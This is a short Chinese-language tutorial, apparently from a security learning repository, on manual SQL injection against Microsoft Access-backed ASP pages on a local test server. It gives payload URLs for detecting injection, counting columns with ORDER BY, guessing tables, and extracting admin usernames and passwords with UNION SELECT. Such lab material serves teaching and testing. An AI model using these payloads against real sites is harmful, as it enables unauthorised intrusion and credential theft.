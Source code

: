 ## 1、access数据库

access数据库与其他数据库不一样 他没有存储表的库，所以只能猜表。

## 2、access数据库结构

表、字段、数据

![img](../../acess/wps.png) 

## 3、判断是否存在注入

### and 判断

http://127.0.0.1:99/ProductShow.asp?ID=104 and 1=1 正确页面

http://127.0.0.1:99/ProductShow.asp?ID=104 and 1=2 错误页面or 判断

### or方法判断

http://127.0.0.1:99/ProductShow.asp?ID=-104 or 1=2 错误页面

http://127.0.0.1:99/ProductShow.asp?ID=104 or 1=1 正常页面

## 4、判断字段数

### order by 判断当前表的字段数

http://127.0.0.1:99/shownews.asp?id=110 order by 10 正常

http://127.0.0.1:99/shownews.asp?id=110 order by 11 错误

![img](../../acess/wps2.jpg) 

 

## 5、猜表

http://127.0.0.1:99/shownews.asp?id=110 union select 1,2,3,4,5,6,7,8,9,10 from admin

将 admin 换成别的表

## 6、猜字段

在显示数字上的文字替换要猜的字段

![img](../../acess/wps3.png) 

## 7、查询数据

![img](../../acess/wps4.png) 

## 8、aceess数据库语句

select * from news where id=-110 union select 1,username,password,4,5,6,7,8,9,10 from admin

![img](../../acess/wps5.jpg)